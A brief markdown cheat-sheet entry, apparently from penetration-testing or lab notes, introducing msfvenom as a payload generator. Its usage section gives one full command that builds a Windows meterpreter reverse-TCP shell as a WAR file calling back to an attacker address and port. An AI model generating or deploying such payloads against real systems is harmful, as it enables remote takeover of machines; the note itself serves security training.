 # msfvenom

## Overview

msfvenom is a payload generator.
You can create reverse shells in many different formars

## Usage

Getting a war payload

	msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.46 LPORT=9001 -f war -o payload.war


